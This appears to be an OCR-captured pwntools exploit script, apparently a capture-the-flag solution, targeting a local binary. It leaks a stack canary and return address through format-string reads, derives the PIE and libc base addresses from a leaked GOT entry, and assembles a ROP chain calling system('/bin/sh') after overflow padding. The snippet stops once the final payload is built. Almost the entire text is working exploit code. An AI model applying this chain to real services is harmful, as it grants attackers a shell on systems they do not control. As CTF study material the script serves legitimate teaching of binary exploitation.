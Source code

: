 \begin{verbatim}
def run():
    elf.address = 0
    libc.address = 0

    p = remote(LOCAL_HOST, LOCAL_PORT)
    # p = gdb.debug(binary, gdbscript)

    # Leak canary
    canary = int(leak_pointer(p, 13), 16)
    info("Canary: %#x", canary)

    # Leak stored rip to compute PIE base address
    # stored rip points to menu+menu_leak_offset
    # found manually using gdb
    menu_leak_offset = 256
    leaked_menu = int(leak_pointer(p, 15), 16) - menu_leak_offset
    info("offset of menu: %#x", elf.functions.menu.address)
    elf.address = leaked_menu - elf.functions.menu.address
    info("leaked address: %#x", leaked_menu)
    info("piebase: %#x", elf.address)

    # Leak puts address from GOT
    info("GOT puts address: %#x", elf.got['puts'])
    puts_address = p64(elf.got['puts'])

    # scanf stops reading on whitespace
    if contains_whitespace(puts_address):
        print("Retrying: Whitespace in puts address")
        return False

    payload = flat(
        b"%9$s".ljust(8, b'A'), # Padded so puts address is aligned for %9$s
        elf.got['puts'],
    )
    leak_any(p, payload)
    leaked_puts = u64(p.recv(6) + b"\x00\x00") # last two null bytes are not read by printf
    info("Leaked puts: %#x", leaked_puts)
    
    # Compute libc base address
    libc.address = leaked_puts - libc.symbols.get('puts')
    info("libc base: %#x", libc.address)
    system = libc.functions.system.address
    info("system address: %#x", system)
    bin_sh = next(libc.search(b"/bin/sh\x00"))
    info("/bin/sh address: %#x", bin_sh)

    rop = ROP(libc, badchars='\n;=')
    pop_rdi = rop.find_gadget(['pop rdi', 'ret']).address
    # ret gadget used to align stack 
    ret_align = rop.find_gadget(['ret']).address

    # NOTE: curr pointer is stored at a lower address (closer to rsp) than name buffer
    # therefore we can safely overwrite the name buffer without
    # messing with the curr pointer,
    # and thus safely make it to the ret instruction for the ROP chain

    # bytes to canary (found with gdb)
    padding_length = 40 # (56 to rip, 40 = 56 - canary - rbp)

    payload = flat(
        b"A" * padding_length,
        canary,
        p64(0), # old rbp, not important
        pop_rdi,
        bin_sh,
        ret_align,
        system,
    )


\end{verbatim}
